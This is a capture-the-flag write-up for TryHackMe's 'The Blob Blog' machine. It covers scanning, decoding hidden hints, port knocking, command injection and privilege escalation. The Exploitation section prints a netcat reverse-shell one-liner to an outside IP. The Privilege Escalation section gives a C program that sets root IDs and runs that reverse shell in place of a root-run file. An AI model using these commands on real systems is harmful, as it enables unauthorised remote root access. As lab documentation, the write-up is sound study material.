 # The Blob Blog TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We scan with **nmap** all ports with scripts and versions.

![](2.png)

## Enumeration
We access the website, we find the default Apache Ubuntu page. 

![](3.png)

We find in the source code a text encoded in "*base64*".

![](4.png)

We decode the text and get as a result another one, this time it is encoded in "*brainfuck*".

![](5.png)

We decode the text, it seems to give us a "*hint*" to perform port knocking and discover some new service.

![](6.png)

We download the **[knock](https://github.com/grongor/knock)** tool and use the port sequence mentioned in the hint. 
After finishing, we do a new nmap and find two new ports (*21, 8080 and 445*).

![](7.png)

Using **dirsearch** on port *8080 web service*, we found several interesting paths to a blog.

![](8.png)

The credentials are tested in the authentication panel, but they do not work. We try to access through the **FTP** service and they do work.

In the **FTP** there is only one *photo* that could contain stego, but there is nothing else interesting (at the moment).

![](9.png)

Again, we launched **nmap** to check software versions of the new ports. We found that *port 445* (normally SMB) is an *HTTP service*!!!!

![](10.png)

We access the web resource through port 445, in the source code we find some credentials.

![](11.png)

We launch the **dirsearch** tool again on the new resource and find a directory called *"/user"* which provides us with a private *SSH key*.

![](12.png)

#### Evidence of SSH Private key

![](13.png)

Now with the previously found password, we extract the text file that contains the previous image, it hides a path and credentials.

![](14.png)

We access the web path that hid the text file found, it seems to give us a clue and sign a user.

![](15.png)

We tried the credentials, but they do not work. The **hint** left a word at the end of the text, this made me think that maybe they were encoded or encrypted, so I tried with *vigenère* and it worked!

![](16.png)

Enter your credentials and you have access to the blog.

![](17.png)

## Exploitation

We see that from the form field we are able to execute system commands.

![](18.png)

#### Result

![](19.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Reverse shell

![](20.png)

We do a little reconnaissance, we try *two images* of two puppies, we test to see if they contain any information with **steghide** (without password) and one of them shows us a cipher text.

![](21.png)

No comment....

![](22.png)

We tested the passwords found with the two users and one of them works with the user *"bob"*.

![](23.png)

We found the rare "*blogFeedback*" binary, downloaded it and analyzed it with "**Ghidra**".

![](25.png)

We see that the binary asks for a numerical sequence being less than 7 digits and that it executes a shell with the user *UID/GID 1000:1000 (bobloblaw)*.

![](26.png)

We put the sequence of the *6 digits less than 7*, we see that we already have shell as the user "*bobloblaw*", we look for the flag and read it.

![](27.png)

## Privilege Escalation

We run "*sudo -l*" and we see that we have access to two binaries with *SUDO*.

![](28.png)

I'm trying to play around with these binaries, but I can't get anything...There is a rather annoying message that keeps popping up on the screen. We launch the **pspy64** tool and see what is running.

![](30.png)

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/bin/sh rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f");
return(0);
}
```
We create a file in **C** with our reverse shell, replace it with the legitimate one and wait for it to compile and run on the victim machine... We receive a connection as the *root user* ;)

![](31.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)

